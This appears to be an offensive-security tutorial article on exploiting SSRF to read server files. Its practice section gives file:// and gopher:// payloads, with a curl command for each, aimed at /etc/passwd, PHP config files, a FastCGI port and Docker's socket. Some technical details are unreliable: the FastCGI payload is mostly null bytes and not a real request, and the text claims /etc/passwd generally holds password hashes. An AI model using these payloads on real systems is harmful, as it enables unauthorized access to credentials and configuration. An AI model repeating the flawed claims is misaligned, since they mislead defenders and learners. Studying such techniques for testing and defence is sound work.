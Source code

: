 ```yaml
---
title: SSRF File Access Exploitation Techniques
description: Learn how SSRF vulnerabilities enable unauthorized file access on servers.
  Explore exploitation techniques targeting sensitive files via SSRF.
keywords:
- SSRF
- File Access
- Exploitation
- Server Vulnerabilities
- Unauthorized File Read
- Local File Inclusion
- FastCGI
- Unix Socket
---
```


# File Access

## Context

The objective of this article is to demonstrate how Server-Side Request Forgery (SSRF) vulnerabilities can be exploited to access unauthorized files on target servers. This assumes a foundational understanding of file system permissions, web server configurations, HTTP request methods, and SSRF mechanisms.

## Theory

### File Protocols in SSRF Exploitation

The file:// protocol is a powerful SSRF vector allowing attackers direct access to files on a target server. By abusing SSRF vulnerabilities, attackers can employ the file:// scheme to instruct the server to read specific files. This poses a significant risk when web applications fail to restrict SSRF destinations strictly, making local files exposed to malicious requests.

### Targeting Sensitive Files

A common initial target for file access through SSRF is the /etc/passwd file on Unix systems. Successfully reading this file is a clear indicator of arbitrary file read capabilities. While the /etc/passwd file generally contains hashed user credentials, its access confirms the SSRF attack vector and can be crucial for user enumeration and further exploitation.

### Local File Inclusion via SSRF

Local File Inclusion (LFI) vulnerabilities occur when unsanitized user input is used in file path constructions within server-side code. By supplying specially crafted file:// URLs to SSRF vulnerable endpoints, attackers can manipulate backend server processes to execute unintended file reads with potentially devastating consequences.

### Advanced File Access Techniques

Advanced SSRF exploitation techniques can target FastCGI interfaces and Unix socket endpoints. The FastCGI protocol can expose file reading capabilities when SSRF payloads craft requests to interact with backend systems, potentially over gopher:// schemes. Unix domain sockets provide a bypass route, and SSRF can reach privileged operations by accessing these sockets, offering another layer of potentially devastating exploitation avenues.

## Practice

### Direct File Read via file:// Protocol

Using SSRF vulnerabilities, attackers can directly access files using the file:// protocol. This technique involves crafting payloads to trick the server into reading files.

- **Payload**: Use the following payload to access the Unix `/etc/passwd` file.
  
  ```text
  file:///etc/passwd
  ```

- **Command**: Deploy the payload using `curl` to send a POST request.
  
  ```bash
  curl -X POST 'https://target/app' -d 'url=file:///etc/passwd'
  ```

**Outcome**: This delivers unauthorized access to the contents of `/etc/passwd`, allowing the attacker to validate arbitrary file read capabilities.

### Arbitrary File Read via SSRF Parameter Manipulation

Leverage SSRF vulnerabilities to read arbitrary files that the server process can access.

- **Payload**: Target specific configuration files that might contain sensitive information.

  ```text
  file:///var/www/html/config.php
  ```

- **Command**: Execute using the following `curl` command.
  
  ```bash
  curl -X POST 'https://target/app' -d 'url=file:///var/www/html/config.php'
  ```

**Outcome**: Successfully accessing server-readable files could expose sensitive data, such as application configurations or credentials.

### File Read via FastCGI SSRF

Tamper with SSRF vectors to exploit FastCGI backend interfaces that handle file reads.

- **Payload**: Construct a gopher payload strategically for FastCGI data access.

  ```text
  gopher://127.0.0.1:9000/_%00%00%00%01%01%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00
  ```

- **Command**: Pass this via `curl` to the vulnerable service.
  
  ```bash
  curl -X POST 'https://target/app' -d 'url=gopher://127.0.0.1:9000/_%00%00%00%01%01%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00'
  ```

**Outcome**: Gain file content access via FastCGI by exploiting its response to SSRF queries.

### File Access via Unix Socket SSRF

Access Unix socket files using essential SSRF payloads, testing server socket interactions.

- **Payload**: Direct access to Docker's Unix socket file.

  ```text
  file:///var/run/docker.sock
  ```

- **Command**: Utilize `curl` to send payloads.

  ```bash
  curl -X POST 'https://target/app' -d 'url=file:///var/run/docker.sock'
  ```

**Outcome**: This interaction can facilitate further malicious activities by enabling communication with Unix socket-based APIs.

## Tools

- **curl**
- **Burp Suite**